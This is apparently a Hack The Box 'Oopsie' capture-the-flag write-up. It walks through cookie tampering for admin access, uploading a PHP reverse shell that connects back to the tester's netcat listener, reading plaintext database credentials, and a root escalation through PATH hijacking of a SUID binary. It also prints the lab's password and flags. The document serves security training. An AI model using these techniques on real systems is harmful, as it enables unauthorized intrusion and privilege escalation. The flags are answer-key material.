





# Oopsie

## Machine Details 

- **CTF:** Hack The Box
- **Category:** Tier 2

## Solution

#### 1. With what kind of tool can intercept web traffic?

> proxy

#### 2. What is the path to the directory on the webserver that returns a login page?

We see that there might be some login page:


So we will use [Burp Suite](https://portswigger.net/burp/communitydownload) to passively spider the website:

Once we open the webpage with burp, we can see the site map:



> /cdn-cgi/login

#### 3. What can be modified in Firefox to get access to the upload page?

> cookie

#### 4. What is the access ID of the admin user?

We can login as guest:



And we can see, that to upload we need `super admin` rights:



When we click `Account`, we can see in the `URL`, that our `id` is `2`, let's find `admin's` `id`:



Admin's `id` is `1`:


> 34322

#### 5. On uploading a file, what directory does that file appear in on the server?

```sh
$ gobuster dir -u http://10.129.95.191 -w dictionaries/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.95.191
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                dictionaries/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
...
/uploads              (Status: 301) [Size: 316] [--> http://10.129.95.191/uploads/]
```

> /uploads

#### 6. What is the file that contains the password that is shared with the robert user?

Let's try to get admin access. For that we need to modify our cookies and refresh the page:



We can upload files, let's upload reverse shell from [here](https://github.com/BlackArch/webshells/blob/master/php/php-reverse-shell.php). Note that you need to change `IP` and `PORT`:

```php
...
$ip = '10.10.16.15';  // CHANGE THIS
$port = 9001;       // CHANGE THIS
...
```

After we upload it, we need to set up our `nc listener`:

```sh
$ nc -l 9001
```

And visit `http://10.129.95.191/uploads/php-reverse-shell.php`. Finally we got reverse shell:

```sh
nc -l 9001
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 10:55:57 up 25 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

To have a stable shell, we need to execute: 

```sh
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@oopsie:/$
```

```sh
www-data@oopsie:/$ cd /var/www/html/cdn-cgi/login 
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

Let's switch to user `robert`:

```sh
www-data@oopsie:/var/www/html/cdn-cgi/login$ su robert
su robert
Password: M3g4C0rpUs3r!

robert@oopsie:/var/www/html/cdn-cgi/login$
```

> db.php

#### 7. What executible is run with the option "-group bugtracker" to identify all files owned by the bugtracker group?

> find

#### 8. Regardless of which user starts running the bugtracker executable, what's user privileges will use to run?

Let's try to escalate out priveleges:

```sh
robert@oopsie:/var/www/html/cdn-cgi/login$ id
id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

`robert` is in group `bugtracker`. Let's see if there is any binary within that group:

```sh
robert@oopsie:/var/www/html/cdn-cgi/login$ find / -group bugtracker 2>/dev/null
<cdn-cgi/login$ find / -group bugtracker 2>/dev/null
/usr/bin/bugtracker
robert@oopsie:/var/www/html/cdn-cgi/login$ ls -al /usr/bin/bugtracker
ls -al /usr/bin/bugtracker
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
```
There is a [suid](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit).

> root

#### 9. What SUID stands for?

> Set owner User ID

#### 10. What is the name of the executable being called in an insecure manner?

```sh
robert@oopsie:/var/www/html/cdn-cgi/login$ /usr/bin/bugtracker
/usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 0
0
---------------

cat: /root/reports/0: No such file or directory
```

It does not specifies the whole path to file cat and thus we might be able to exploit this.

> cat

#### Submit user flag

```sh
robert@oopsie:/var/www/html/cdn-cgi/login$ cat /home/robert/user.txt
cat /home/robert/user.txt
f2c74ee8db7983851ab2a96a44eb7981
```

#### Submit root flag

1. navigate to `/tmp`
2. create a file named cat with `/bin/bash` inside
3. give execute permissions
4. modify `$PATH` to include `/tmp`
5. run `bugtracker`

```sh
robert@oopsie:/var/www/html/cdn-cgi/login$ cd /tmp
cd /tmp
robert@oopsie:/tmp$ echo "/bin/bash" > cat
echo "/bin/bash" > cat
robert@oopsie:/tmp$ chmod +x cat
chmod +x cat
robert@oopsie:/tmp$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
robert@oopsie:/tmp$ /usr/bin/bugtracker
/usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 0
0
---------------

root@oopsie:/tmp# cd /root
root@oopsie:/root# ls
reports  root.txt
root@oopsie:/root# cat root.txt
root@oopsie:/root# rm /tmp/cat
root@oopsie:/root# cat root.txt
af13b0bee69f8a877c3faf667f7beacf
```

## Final Flags

> `user`: f2c74ee8db7983851ab2a96a44eb7981
> `root`: af13b0bee69f8a877c3faf667f7beacf

*Created by [bu19akov](https://github.com/bu19akov)*